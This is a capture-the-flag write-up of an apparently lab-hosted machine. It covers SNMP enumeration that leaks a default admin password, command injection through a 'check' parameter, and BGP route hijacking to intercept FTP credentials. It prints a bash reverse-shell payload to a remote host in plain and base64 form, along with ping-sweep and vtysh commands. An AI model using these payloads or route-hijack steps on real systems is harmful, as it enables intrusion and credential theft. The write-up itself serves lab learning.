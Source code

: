 ![](./logo.png)

# User
80 port leads to a login page

### Versions
```
PHP Version 7.0.30-0ubuntu0.16.04.1
```

A login page with "Lyghtspeed"

### GoBuster
```
/img
/tools
/css
/js
/debug
/doc
```

On /doc found error_code.pdf

Error 45009 tells me default admin password is set

```
System credentials have not been set Default admin user password is set (see chassis serial number)
```

Decided to enumerate more. So I performed a nmap udp scan.

```
nmap.udp.txt
```

Found an open port 161 that is simple management protocol

By running:

```
snmpwalk -v 2c -c public 10.10.10.105
```

You get the string:

```
SN#NET_45JDX23
```

This gives the login

```
admin
NET_45JDX23
```

Diagnostic page has mention of:

```
zebra
bgpd
watchquagga
```

The verify button sends a parameter known as 'check' but seems to place the value straight into a command

This means we can add a ";" and run our own commands!! Reverse shell time!!!

Payload:
```
; bash -i >& /dev/tcp/10.10.14.55/8000 0>&1
```

Base64 Encoded:
```
OyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjU1LzgwMDAgMD4mMQo=
```

Gives us a reverse shell

# ROOT

Netstat:
```
tcp        0      0 10.78.10.1:bgp          10.78.10.2:49462        ESTABLISHED
tcp        0      0 10.99.64.2:ssh          10.99.64.251:52270      ESTABLISHED
tcp        0      0 10.78.11.1:bgp          10.78.11.2:47872        ESTABLISHED
tcp        0      8 10.99.64.2:49350        10.10.14.55:8000        ESTABLISHED
tcp        0      0 10.99.64.2:ssh          10.99.64.251:43758      ESTABLISHED
```

In the ticket information we have mention of

```
..."CastCom. still reporting issues with 3 networks: 10.120.15,10.120.16,10.120.17/24's"...
..."issues connecting by FTP to an important server in the 10.120.15.0/24 network"...
```
This shows the aim of the challenge is to obtain the 'important' ftp traffic

# Networks

```
10.120.15.0/24 
10.120.16.0/24
10.120.17.0/24
```

Scanning for active hosts without nmap
```
for x in {15..17} ; do (for i in {1..254} ;do (ping 10.120.$x.$i -c 1 -w 5  >/dev/null && echo "10.120.$x.$i" &) ;done) ; done
```

### 10.120.15.0/24

```
10.120.15.1
10.120.15.10 # FTP?
```

Nothing active on 10.120.16.0/24 or 10.120.17.0/24?

This whole network is a series of bgp routers


Using the vtysh command shell we can view the route a packet will take to reach the target ftp server

```
$ vtysh -c "show ip bgp"

*  10.120.15.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
```

Running our config.sh script on the system downloads our custom script and restarts the service. **This advertises that we are the shorted route to the ftp server.**

Out overall aim is to impersonate the FTP server

Now was able are able to receive the ftp traffic using ftpd.py giving us:

```
2019-03-15 15-54-01 [-] USER: root
2019-03-15 15-54-01 [-] Received data: PASS BGPtelc0rout1ng
```
 You can now ssh onto 10.120.15.10 and get the root flag!

